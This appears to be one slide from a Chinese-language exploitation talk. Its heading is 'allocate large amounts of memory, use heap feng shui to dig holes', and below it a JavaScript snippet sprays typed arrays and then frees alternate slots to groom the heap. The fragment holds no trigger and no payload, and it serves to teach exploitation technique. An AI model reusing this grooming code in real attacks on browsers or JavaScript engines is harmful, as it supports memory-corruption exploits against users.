

1 申请大量内存，利用堆风水挖洞

for(var i=0;i<0x600;i=i+1){
    var uintArray;
    if(i!=0x155){
		var buffer=new ArrayBuffer(0x100000-0x40);
		uintArray=new Uint32Array(buffer);
	}else{
		uintArray=new Array(0x20000-0x40);
		uintArray[0]=i;
	}
   array1[i]=uintArray;
}
for(var i=0;i<0x200;i=i+2){
    array1[i]="";
}